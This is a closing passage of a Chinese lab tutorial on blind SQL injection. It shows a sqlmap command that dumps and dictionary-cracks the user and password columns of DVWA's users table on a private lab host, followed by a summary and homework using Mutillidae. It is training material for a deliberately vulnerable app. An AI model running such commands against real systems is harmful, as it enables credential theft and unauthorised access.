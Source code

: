 ```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users -C "user,password" --dump
```

进过几番的询问，我们都确认，此时 sqlmap 会通过默认放在本地的字典为我们破解数据库中的密码，使其明文显示，因为通过字典匹配所以需要一定的时间：

![show-password](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354217960.png/wm)

可以尝试着使用我们破解出来的用户名与密码登陆一番，看是否能够正常的登陆。

## 6. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- SQL 盲注简介
- SQL 盲注之延时注入
- SQL 注入利器 sqlmal 的初步使用

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 7. 作业

1. 使用 Mutillidae 环境完成类似的实验。